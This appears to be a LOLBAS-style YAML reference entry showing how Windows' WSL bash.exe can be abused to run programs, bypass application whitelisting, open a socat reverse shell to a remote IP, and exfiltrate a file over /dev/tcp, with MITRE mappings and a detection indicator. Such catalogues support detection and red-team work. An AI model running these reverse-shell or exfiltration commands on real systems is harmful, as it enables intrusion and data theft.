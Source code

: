 ```yaml
---
Name: Bash.exe
Description: File used by Windows subsystem for Linux
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: bash.exe -c calc.exe
    Description: Executes calc.exe from bash.exe
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10
  - Command: bash.exe -c "socat tcp-connect:192.168.1.9:66 exec:sh,pty,stderr,setsid,sigint,sane"
    Description: Executes a reverseshell
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10
  - Command: bash.exe -c 'cat file_to_exfil.zip > /dev/tcp/192.168.1.10/24'
    Description: Exfiltrate data
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10
  - Command: bash.exe -c calc.exe
    Description: Executes calc.exe from bash.exe
    Usecase: Performs execution of specified file, can be used to bypass Application Whitelisting.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\bash.exe
  - Path: C:\Windows\SysWOW64\bash.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Child process from bash.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Acknowledgement:
  - Person: Alex Ionescu
    Handle: "@aionescu"
  - Person: Asif Matadar
    Handle: "@d1r4c"
---
```

